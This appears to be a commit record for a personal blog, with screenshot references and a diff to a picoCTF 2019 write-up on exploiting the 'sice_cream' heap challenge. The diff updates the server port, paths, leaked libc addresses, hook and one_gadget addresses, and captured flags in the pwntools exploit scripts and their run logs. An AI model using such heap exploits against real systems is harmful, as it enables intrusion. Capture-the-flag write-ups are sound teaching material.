

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-10-12-picoctf-2019-sice-cream.markdown, in a window 1280 px wide and 1400 px high, scrolled down 18808 px. Shown: the top 1387 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fixed some stuff from pico

````diff
--- a/_posts/2019-10-12-picoctf-2019-sice-cream.markdown
+++ b/_posts/2019-10-12-picoctf-2019-sice-cream.markdown
@@ -67,7 +67,7 @@ context.arch = 'amd64'
 context.terminal = ['tmux', 'new-window']
 
 BINARY = './sice_cream'
-HOST, PORT = '2019shell1.picoctf.com', 6552
+HOST, PORT = '2019shell1.picoctf.com', 38495
 
 elf = ELF(BINARY)
 libc = ELF('./libc.so.6')
@@ -445,7 +445,7 @@ context.arch = 'amd64'
 context.terminal = ['tmux', 'new-window']
 
 BINARY = './sice_cream'
-HOST, PORT = '2019shell1.picoctf.com', 6552
+HOST, PORT = '2019shell1.picoctf.com', 38495
 
 elf = ELF(BINARY)
 libc = ELF('./libc.so.6')
@@ -665,27 +665,26 @@ free(11)
 p.interactive()
 ```
 ```sh
-Faith@pico-2019-shell1:~$ ./sice_cream.py REMOTE
-[*] '/home/Faith/sice_cream'
+redacted@pico-2019-shell1:~$ python2 exploit.py REMOTE
+[*] '/home/warlock/sice_cream'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x3ff000)
     RUNPATH:  './'
-[*] '/home/Faith/libc.so.6'
+[*] '/home/warlock/libc.so.6'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled
-[+] Opening connection to 2019shell1.picoctf.com on port 6552: Done
-[*] Leak: 0x7f451eb51b78
-[*] main arena: 0x7f451eb51b20
-[*] Libc base: 0x7f451e78d000
-[*] system: 0x7f451e7d2390
-[*] __free_hook: 0x7f451eb537a8
-[*] fake_chunk_top: 0x7f451eb51b2a
+[+] Opening connection to 2019shell1.picoctf.com on port 38495: Done
+[*] Leak: 0x7f1df256eb78
+[*] main arena: 0x7f1df256eb20
+[*] Libc base: 0x7f1df21aa000
+[*] system: 0x7f1df21ef390
+[*] __free_hook: 0x7f1df25707a8
 [*] Switching to interactive mode
 $ ls
 flag.txt
@@ -694,7 +693,7 @@ libc.so.6
 sice_cream
 xinet_startup.sh
 $ cat flag.txt
-flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_148c832c}$
+flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_ac8fd349}$
 ```
 
 ### **Other Exploit**
@@ -709,7 +708,7 @@ context.arch = 'amd64'
 context.terminal = ['tmux', 'new-window']
 
 BINARY = './sice_cream'
-HOST, PORT = '2019shell1.picoctf.com', 6552
+HOST, PORT = '2019shell1.picoctf.com', 38495
 
 elf = ELF(BINARY)
 libc = ELF('./libc.so.6')
@@ -872,7 +871,7 @@ p.interactive()
 
 ```
 ```sh
-vagrant@ubuntu-xenial:/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream$ ./exploit2.py REMOTE
+vagrant@ubuntu-xenial:/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream$ ./exploit.py REMOTE
 [*] '/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream/sice_cream'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
@@ -886,16 +885,16 @@ vagrant@ubuntu-xenial:/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream$ ./expl
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled
-[+] Opening connection to 2019shell1.picoctf.com on port 6552: Done
-[*] Leak: 0x7f6d15d9db78
-[*] main arena: 0x7f6d15d9db20
-[*] Libc base: 0x7f6d159d9000
-[*] system: 0x7f6d15a1e390
-[*] __free_hook: 0x7f6d15d9f7a8
-[*] __malloc_hook: 0x7f6d15d9db10
-[*] one_gadget: 0x7f6d15ac92a4
+[+] Opening connection to 2019shell1.picoctf.com on port 38495: Done
+[*] Leak: 0x7f61ebcbdb78
+[*] main arena: 0x7f61ebcbdb20
+[*] Libc base: 0x7f61eb8f9000
+[*] system: 0x7f61eb93e390
+[*] __free_hook: 0x7f61ebcbf7a8
+[*] __malloc_hook: 0x7f61ebcbdb10
+[*] one_gadget: 0x7f61eb9e92a4
 [*] Switching to interactive mode
-*** Error in `/problems/sice-cream_2_fc6c2a415935e4010e4e221e6d965a34/sice_cream': double free or corruption (fasttop): 0x00000000022db010 ***
+*** Error in `/problems/sice-cream_4_7ef8903b2c31d9f08c4ad7bcdcb5f0d3/sice_cream': double free or corruption (fasttop): 0x0000000001500010 ***
 $ ls
 flag.txt
 ld-2.23.so
@@ -903,5 +902,5 @@ libc.so.6
 sice_cream
 xinet_startup.sh
 $ cat flag.txt
-flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_148c832c} $
+flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_ac8fd349}$
 ```
````
Also changed, not shown: _posts/2019-10-12-picoctf-2019-ghostdiary.markdown (+11 -7 lines).
